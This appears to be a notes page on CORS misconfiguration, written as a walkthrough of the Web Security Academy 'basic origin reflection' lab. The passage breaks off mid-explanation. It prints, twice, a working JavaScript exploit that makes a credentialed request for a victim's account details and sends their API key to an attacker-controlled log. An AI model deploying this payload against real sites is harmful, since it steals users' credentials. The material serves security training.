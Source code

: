 ## What is CORS (cross-origin resource sharing)?

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).
CORS.

Here's Simple javascript code for csrf simple cors vuln if server allow anywhere:
```javascript
<script> var req = new XMLHttpRequest(); req.onload = reqListener;
	req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; 
</script>
```
### Lab: CORS vulnerability with basic origin reflection
1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:

```css
Origin: https://example.com
```

4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:

    ```javascript
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
	```

1. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
2. Go back to the exploit server and click **Deliver exploit to victim**.
3. Click **Access log**, retrieve and submit the victim's API key to complete the lab.
## Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:
